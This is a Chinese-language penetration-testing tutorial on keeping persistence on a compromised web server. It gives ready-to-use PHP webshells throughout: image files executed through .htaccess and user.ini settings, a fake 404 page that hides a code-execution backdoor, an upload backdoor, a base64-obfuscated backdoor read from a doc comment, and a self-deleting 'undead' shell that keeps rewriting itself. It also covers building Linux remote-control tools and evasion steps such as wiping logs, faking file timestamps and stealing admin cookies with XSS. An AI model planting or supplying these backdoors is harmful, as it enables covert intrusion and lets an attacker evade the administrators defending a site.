

## 前言
在实战渗透中，经常需要上传webshell来完成对目标的权限维持。通过各种方法来构造一个免杀的webshell后门来实现webshell层面的权限维持是大家比较通用的方法，但是除了简单粗暴的写php免杀马，实战中还有一些小技巧值得去学习，毕竟除了要绕过各种waf的防护，还需要绕过“人肉waf“ 管理员的火眼金睛，大体分为`webshell隐藏`和`构建漏洞页面`
## 隐藏webshell
隐藏webshell是web层维持权限的基本方法，但是如果直接写php文件，哪怕是源码免杀，也很容易被管理员发现，因此，利用Apache的解析机制来将webshell源码写入其他非php格式的文件（png、jpeg、.vim、Thumb.db、css、init、.tmp等文件），再配合include、require等函数嵌套使用，基本很难被发现。
### .htaccess
.htaccess文件是apache服务器的一种目录级别的修改配置的方式，可以用来配置当前目录及其所有子目录，常常被用于访问URL时重写路径；
开启htaccess：
打开apache 配置文件httpd.conf，将LoadModule rewrite_module modules/mod_rewrite.so的注释去掉， 同时确定 AllowOverride的参数若为All：AllowOverride ALL，None表示忽略 .htaccess文件：AllowOverride None， 简单测试方法：就是查看网站根目录下有没有htaccess文件，有的话说明可以使用htaccess文件。 值得注意的是，子目录下的htaccess文件不受父目录的htaccess文件影响，即子目录中的指令会覆盖父目录或者主配置文件中的指令。
### SetHandler
SetHandler 指令可以强制所有匹配的文件被一个指定的处理器处理。 SetHandler application/x-httpd-php 将图片马123.jpeg 当做 php 执行
```php
<FilesMatch "123.jpeg">
      SetHandler application/x-httpd-php
  </FilesMatch>
```


### AddHandler
AddHandler 指令可以实现在文件扩展名与特定的处理器之间建立映射。
```shell
#将.jpg 当做 php 文件解析
AddType application/x-httpd-php .png
#最好是设置一个独特的后缀，防止同目录下的其他文件解析错误
#比如照片格式：jpeg 、icon、ico、Thumbs.db
```


### .htaccess本身
默认情况下是无法访问.htaccess文件的，需要修改访问的权限
```php
<Files ~ "^.ht">
      Require all granted
      Order allow,deny
      Allow from all
  </Files>
  SetHandler application/x-httpd-php
  # <?php phpinfo();?>
  # 注释内就是需要执行的php代码
```


### user.ini && htaccess 自动包含


user.ini 和.htaccess都可以使两种配置模式生效：PHP_INI_PREDIR和PHP_INI_ALL 使用文件包含的两个相关配置 
auto_prepend_file：指定一个文件，在主文件解析之前自动解析
auto_append_file：指定一个文件，在主文件解析后自动解析
 user.ini 内容为

```shell
auto_prepend_file=test.png
# 或者
auto_append_file=test.png
```
条件：php5.3+ && NTS 版本




## 构建漏洞页面
### 404页面、文件上传其他功能性页面
```php
404页面
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
#构造代码执行
<?php
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
header('HTTP/1.1 404 Not Found');
?>
#文件上传
<?php if($_POST){if(@copy($_FILES["0"]["tmp_name"],$_FILES["0"]["name"])){echo"done";}else{echo"no";}}else{echo"<form method=post enctype=multipart/form-data><input type=file name=0><input name=0 type=submit value=submit>";}?>
```
### 注释马
适用于具有修改网站php文件权限的时候，非常好用的一个技巧
```php
<?php
/**
YXNzZXJ0YmZnZmc=
*/
class Example
{
public function fn(){}
}
#通过一个空的类去获取，
$reflector = new ReflectionClass('Example'); //这里为通过反射获取类的注释
$zhushi = substr(($reflector->getDocComment()), 7, 12);//然后去截断获取注释里的字符,注意getDocComment只能通过文件最开始的类来调用才会把注释内容显示
//echo $zhushi;
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
echo $zhushi;
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
        print_r($$_request);
    }
}
/*设置一个数组，参数为_POST,_GET,然后把该数组用$_request去表示，再设置一个遍历，把$_request设为一个可变变量，再键值分离
再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容
*/
$zhushi($_value);
//最后就是assert(传入的变量值)
?>
```
## 内存马
内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐
### PHP
php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。本次演示是将php不死马放到web目录下访问后及执行会在本地循环生成php一句话木马。
```php
<?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while (1) {
    $content = '<?php @eval($_POST["cmd"]); ?>';
    file_put_contents("22.php", $content);
    usleep(10000);
  }
?>
```
函数说明：

1. ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
2. set_time_limit()函数：设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
3. unlink(__FILE__)函数：删除文件。
4. file_put_contents函数：将一个字符串写入文件。
5. usleep函数：延迟执行当前脚本若干微秒（一微秒等于一百万分之一秒）

访问该文件，则会生成22.php，并立马删除该文件


 对于此类webshell，直接删除脚本是没有用的，因为php执行的时候已经把脚本读进去解释成opcode运行了

### [JAVA Servlet](/知识库/02.JAVA安全/11.Tomcat内存马无文件攻击/README.md)
### [JAVA Spring](/知识库/02.JAVA安全/12.Spring框架内存马入门/README.md)

## Linux远控
webshell能做的隐藏手段其实非常有限，因为http协议流量也很容易被监控。相比之Linux远控，因为体积小、通信走的是TCP或者DNS流量，在Linux环境下比传统的webshell更隐蔽，也更方便。也可以直接用C2接管
#### BlueShell
```shell
# 项目地址
git clone https://github.com/whitehatnote/BlueShell
# 编译
# 可以自己编译客户端以及服务端，不过要注意go版本问题
# 生成bsClient

go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go build --ldflags "-s -w " -o bsClient client.go

# 生成bsServer

go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
#### tsh
项目地址：[https://github.com/creaktive/tsh](https://github.com/creaktive/tsh)
可以说是其他linux远控鼻祖了，非常方便，可以伪造进程名、加密流量，非常简单实用

### 其他tips

- xss，在后台页面写入一个xss，来获取管理员cookie，相对php文件说较为隐蔽
- 写一个仅有上传功能的php文件，不包含eval等敏感函数
- centos 可以创建空文件夹+.php文件，ls命令下是看不见的
- 清理痕迹,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除。（一般需要root权限）
- 把webshell的属性时间改为和同目录文件相同的时间戳
- 隐藏在插件目录,主题目录,编辑器的图片目录以及一些临时目录，注意能不能直接访问，不能的话参考上面的htaccess文件修改目录访问权限
- 项目尽量避免使用大马，哪怕是加密的大马也不行，痕迹太多了！
- 同时上传几个备用webshell,可以的话，用不同的ip和user-agent去备份webshell
- 项目列表在有权限的情况,尝试其他方法，比如php拓展后门、apache后门
## 参考资料
[https://zhuanlan.zhihu.com/p/434990950](https://zhuanlan.zhihu.com/p/434990950)

